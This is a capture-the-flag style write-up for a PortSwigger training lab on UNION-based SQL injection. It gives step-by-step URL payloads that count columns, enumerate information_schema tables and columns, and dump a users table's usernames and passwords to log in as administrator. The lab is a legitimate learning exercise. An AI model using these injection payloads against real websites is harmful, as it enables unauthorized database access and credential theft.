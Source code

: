 ```yaml
---
title: 🕸️ PSA - SQLi 9 - Listing contents on non-Oracle DB
date: 2023-05-16
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````sql
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````sql
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc'--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````sql
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM information_schema.columns--
````

179 tables are returned... But after sorting those containing `user` one stands out: `users_ijvpsp`.

Let's print the differents columns of the table:

````sql
<website>/filter?category=Gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ijvpsp'--
````

We obtain 2 columns: `username_gifugn` and `password_zjiaqz`.

Time to show the passwords!

````sql
/filter?category=Pets' UNION SELECT username_gifugn, password_zjiaqz FROM users_ijvpsp--
````

Password obtained!
